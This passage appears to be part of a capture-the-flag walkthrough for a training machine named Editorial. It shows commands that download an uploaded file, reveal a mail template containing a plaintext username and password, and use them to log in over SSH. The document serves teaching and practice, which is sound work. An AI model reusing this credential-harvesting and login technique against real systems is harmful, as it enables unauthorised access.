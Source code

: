 ![](assets/Pasted%20image%2020250518133613.png)

```shell
$ wget http://editorial.htb/static/uploads/99b69cd0-bc8c-4713-897f-207c8841e123

$ cat 99b69cd0-bc8c-4713-897f-207c8841e123 | jq .
{
  "template_mail_message": "Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.\n\nYour login credentials for our internal forum and authors site are:\nUsername: dev\nPassword: dev080217_devAPI!@\nPlease be sure to change your password as soon as possible for security purposes.\n\nDon't hesitate to reach out if you have any questions or ideas - we're always here to support you.\n\nBest regards, Editorial Tiempo Arriba Team."                                                                                         
}
```

## Initial Access

Connect to the machine via `ssh`:

```shell
$ ssh dev@10.10.11.20           
The authenticity of host '10.10.11.20 (10.10.11.20)' can't be established.
ED25519 key fingerprint is SHA256:YR+ibhVYSWNLe4xyiPA0g45F4p1pNAcQ7+xupfIR70Q.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.20' (ED25519) to the list of known hosts.
dev@10.10.11.20's password: 
Permission denied, please try again.
dev@10.10.11.20's password: 
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 5.15.0-112-generic x86_64)

Last login: Mon Jun 10 09:11:03 2024 from 10.10.14.52
dev@editorial:~$ whoami
dev
```
